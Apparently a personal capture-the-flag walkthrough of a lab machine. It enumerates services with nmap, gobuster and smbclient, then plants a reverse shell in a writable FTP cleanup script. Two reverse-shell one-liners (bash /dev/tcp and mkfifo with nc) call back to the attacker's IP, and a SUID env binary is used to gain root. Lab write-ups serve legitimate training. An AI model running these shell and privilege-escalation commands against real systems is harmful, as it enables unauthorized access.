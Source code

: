 [Back to Table of Contents](../cysec)

NMAP:
- ftp, ssh, smb, 49175 -- unknown filtered

GOBuster:
gobuster -u 10.10.153.36 -w /home/aes18/Documents/CS/Tools/Kali/dirbuster/wordlists/directory-list-1.0.txt -x php,js,py,html,exe,zip,jpg,png,conf,db

smbclient -L 10.10.153.36

| 		 | 			                                                           |
|   ---   |---------------------------------------------------------------|
	| Sharename   | Type                                                          |   Comment  |
	| print$    | Disk                                                          |   Printer Drivers |
	| pics      | Disk      My SMB Share Directory for Pics                     |
	| IPC$       |      IPC       IPC Service (anonymous server (Samba, Ubuntu)) |
SMB1 disabled -- no workgroup available


ftp --
ftp - anonymous
scripts --> clean.sh, removed_files.log, to_do.txt

clean.sh is a bash script that automates deleting files. 
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

almost definitely way in 

-- edit it, add a reverse shell, gain foothold
```
vim ftp://anonymous@ip//scripts/clean.sh  --> didnt work

lftp anonymous@10.10.153.36:/scripts edit clean.sh --> worked
```

tried:
bash -i >& /dev/tcp/10.13.5.104/4443 0>&1

didnt work, added:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.5.104 4444 >/tmp/f --> worked

ls --> user.txt --> flag

find . -perm /4000 
 - /usr/bin/env stood out --> GTFOBins --> SUID privesc
```
./env /bin/sh -p
```
cd /root --> cat root.txt --Finished!